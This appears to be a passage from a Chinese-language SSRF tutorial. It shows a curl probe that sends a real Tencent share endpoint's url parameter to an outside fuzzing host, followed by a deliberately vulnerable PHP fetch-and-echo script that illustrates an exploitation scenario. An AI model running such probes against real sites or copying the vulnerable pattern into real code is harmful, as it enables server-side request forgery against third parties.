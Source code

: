 ```
  
[root@localhost wyssrf]# curl 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url=http://fuzz.wuyun.org:8888'
  
{"ret":1}
  
```
  

  
### 1.3 利用场景
  
假设 victimsite/index.php 是这样实现的：代码中使用curl请求参数url对应的资源，跟随跳转并返回给客户端
  
``` php
  
<?php
  
        $url = $_GET['url'];
  
        $ch = curl_init();
  
        curl_setopt($ch, CURLOPT_URL, $url);
  
        curl_setopt($ch, CURLOPT_HEADER, false);
  
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
  
        curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
  
        curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.11 (KHTML, like Gecko) 
  
                                            Chrome/23.0.1271.1 Safari/537.11');
  
        // 允许302跳转
  
        curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
  
        $res = curl_exec($ch);
  
        // 设置content-type
  
        header('Content-Type: image/png');
  
        curl_close($ch) ;
  
        //返回响应
  
        echo $res;
  
?>
  
```
  